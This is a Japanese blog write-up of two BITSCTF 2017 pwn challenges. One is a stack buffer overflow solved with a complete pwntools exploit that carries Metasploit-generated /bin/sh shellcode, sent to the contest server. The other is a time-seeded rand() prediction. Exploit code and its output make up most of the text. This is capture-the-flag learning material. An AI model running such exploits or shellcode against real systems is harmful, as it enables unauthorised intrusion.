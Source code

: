 ```yaml
---
title: BITSCTF writeup
date: 2017-02-05 21:15:00+0900
tags:
  - CTF
---
```


[BITSCTF 2017](https://bitsctf.bits-quark.org/) に一人チーム [poepoe](https://bitsctf.bits-quark.org/team/135) でこっそり参加. 50 points で 166 位でした.

キャンプ以来少しずつ勉強してきた pwn の力試しにと登録したのだけど, 開始直後は経験のないジャンルしかなくてすぐ諦めてしまっていた.  
けれどもたまたま今日の夕方見たら2つ追加されてたので急いで解いた.

<!--more-->

## pwn

### Command\_Line <small>(20pt)</small>

x86-64 の ELF.

    $ file pwn1
    pwn1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=af1191f6192afa5c46c4146c085b0d85925a28ce, not stripped
    
    $ gdb pwn1
    Reading symbols from pwn1...(no debugging symbols found)...done.
    gdb-peda$ checksec 
    CANARY    : disabled
    FORTIFY   : disabled
    NX        : disabled
    PIE       : disabled
    RELRO     : Partial

`main()` 関数を見るとこんな感じ.  
親切にもバッファのアドレスを教えてくれた後, `scanf("%s")` でそこに入力を読み取ってるだけのプログラムだった.

    $ r2 -A pwn1
    [x] Analyze all flags starting with sym. and entry0 (aa)
    [x] Analyze len bytes of instructions for references (aar)
    [x] Analyze function calls (aac)
    [ ] [*] Use -AA or aaaa to perform additional experimental analysis.
    [x] Constructing a function name for fcn.* and sym.func.* functions (aan))
     -- Ilo ni li pona li pali e lipu. mi wile e ni: sina kama jo e musi
    [0x00400470]> e asm.nbytes = 0
    [0x00400470]> pdf @ main
                ;-- main:
    / (fcn) sym.main 63
    |   sym.main ();
    |           ; var int local_10h @ rbp-0x10
    |              ; DATA XREF from 0x0040048d (entry0)
    |           0x00400566      push rbp
    |           0x00400567      mov rbp, rsp
    |           0x0040056a      sub rsp, 0x10
    |           0x0040056e      lea rax, qword [rbp - local_10h]
    |           0x00400572      mov rsi, rax
    |           0x00400575      lea rdi, qword str.0x_lx_n                 ; 0x400634 ; str.0x_lx_n ; "0x%lx." @ 0x400634
    |           0x0040057c      mov eax, 0
    |           0x00400581      call sym.imp.printf                       ; int printf(const char *format)
    |           0x00400586      lea rax, qword [rbp - local_10h]
    |           0x0040058a      mov rsi, rax
    |           0x0040058d      lea rdi, qword 0x0040063b                  ; 0x40063b ; "%s"
    |           0x00400594      mov eax, 0
    |           0x00400599      call sym.imp.__isoc99_scanf               ; int scanf(const char *format)
    |           0x0040059e      mov eax, 0
    |           0x004005a3      leave
    \           0x004005a4      ret

`scanf()` で読み込む文字数等を指定していないので Stack buffer overflow が起こせる. Canary も NX bit もないので, リターンアドレスを書き換えて流し込んだシェルコードに飛ばして解いた. 接続がすぐ切れてしまうので, 予め `ls` してファイル名を確認してスクリプトから `cat flag` した.

```python
from pwn import *

# $ gdb pwn1
# Reading symbols from pwn1...(no debugging symbols found)...done.
# gdb-peda$ r
# 0x7fffffffde50
# AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH
#
# Program received signal SIGSEGV, Segmentation fault.
# (...)
# gdb-peda$ x/gx $rsp
# 0x7fffffffde68:	0x413b414144414128
# gdb-peda$ patto 0x413b414144414128
# 4700422384665051432 found at offset: 24
padding = 24

# $ msfconsole
# msf > use payload/linux/x64/exec 
# msf payload(exec) > generate -b '\x00' -t python -o CMD=/bin/sh
shellcode =  ''
shellcode += '\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05'
shellcode += '\xef\xff\xff\xff\x48\xbb\x53\xf2\xa1\x2c\x3c\xa0\x78'
shellcode += '\x1a\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4'
shellcode += '\x39\xc9\xf9\xb5\x74\x1b\x57\x78\x3a\x9c\x8e\x5f\x54'
shellcode += '\xa0\x2b\x52\xda\x15\xc9\x01\x5f\xa0\x78\x52\xda\x14'
shellcode += '\xf3\xc4\x34\xa0\x78\x1a\x7c\x90\xc8\x42\x13\xd3\x10'
shellcode += '\x1a\x05\xa5\xe9\xa5\xda\xaf\x7d\x1a'

# r = process('./pwn1')
r = remote('bitsctf.bits-quark.org', 1330)

addr_buffer = int(r.readline()[:-1], 16)
log.info('addr_buffer: 0x%x' % addr_buffer)

payload = ''
payload += 'A' * padding
payload += p64(addr_buffer + padding + 8)
payload += shellcode
r.sendline(payload)

# r.interactive()
r.sendline('cat flag')
log.success('Flag: %s' % r.recv())
```

    $ python2 exploit.py
    [+] Opening connection to bitsctf.bits-quark.org on port 1330: Done
    [*] addr_buffer: 0x7fffffffe620
    [+] Flag: BITSCTF{b451c_57r416h7_f0rw4rd_5h3llc0d1n6}
    [*] Closed connection to bitsctf.bits-quark.org port 1330

### Random Game <small>(30pt)</small>

同じく x86-64 の ELF.

    $ file third
    third: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6c26456447632034ed1ad87d3161adcf72daa6c3, not stripped

`main()` 関数の処理はだいたいこんな感じだった.

1. `srand(time(0))`
2. `rand() & 0xf`
3. `scanf("%d")` して 2 の値と比較
    - 違ってたら `exit(0)`
4. 2-3 を30回繰り返す
5. `./flag` を `open()` -> `read()` -> `printf()`

少し悩んだけど, 乱数の seed に `time(0)` を使ってるので, サーバ側の時間がわかれば乱数を推測できそうなのに気づく.

問題は先程のと同じサーバで動いていると予測. まずは先程のスクリプトを使って `date +%s` を実行し, 手元の環境の時間と大きなズレがないことを確認.  
(注: この結果は後から実行したもの)

    $ date +%s ; python2 exploit.py
    1486292363
    [+] Opening connection to bitsctf.bits-quark.org on port 1330: Done
    [*] addr_buffer: 0x7fffffffe620
    [+] date +%s: 1486292363
    [*] Closed connection to bitsctf.bits-quark.org port 1330

あとは問題と同じ方法で30個の乱数を作る C のコードと問題を解くスクリプトを書いて終わり.

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main() {
  srand(time(0));

  for (int i = 0; i < 30; ++i) {
    printf("%d ", rand() & 0xf);
  }
}
```

```ruby
require 'socket'

s = TCPSocket.new 'bitsctf.bits-quark.org', 1337

randnums = `./rand30`.split

30.times do |n|
  print s.gets 'round : '
  s.puts randnums[n]
  puts randnums[n]
end

puts s.gets
```

    $ clang rand30.c -o rand30
    
    $ ruby solve.rb
    your number for 1 round : 8
    your number for 2 round : 4
    your number for 3 round : 9
    your number for 4 round : 10
    your number for 5 round : 9
    your number for 6 round : 4
    your number for 7 round : 6
    your number for 8 round : 6
    your number for 9 round : 3
    your number for 10 round : 5
    your number for 11 round : 15
    your number for 12 round : 13
    your number for 13 round : 12
    your number for 14 round : 3
    your number for 15 round : 15
    your number for 16 round : 2
    your number for 17 round : 7
    your number for 18 round : 5
    your number for 19 round : 6
    your number for 20 round : 8
    your number for 21 round : 14
    your number for 22 round : 2
    your number for 23 round : 12
    your number for 24 round : 12
    your number for 25 round : 14
    your number for 26 round : 8
    your number for 27 round : 13
    your number for 28 round : 4
    your number for 29 round : 3
    your number for 30 round : 13
    congrats you are rewarded with the flag BITSCTF{54m3_533d_54m3_53qu3nc

なぜか Flag が最後まで送られてこない... 最後のワードを補完して `BITSCTF{54m3_533d_54m3_53qu3nc3}` で通った.
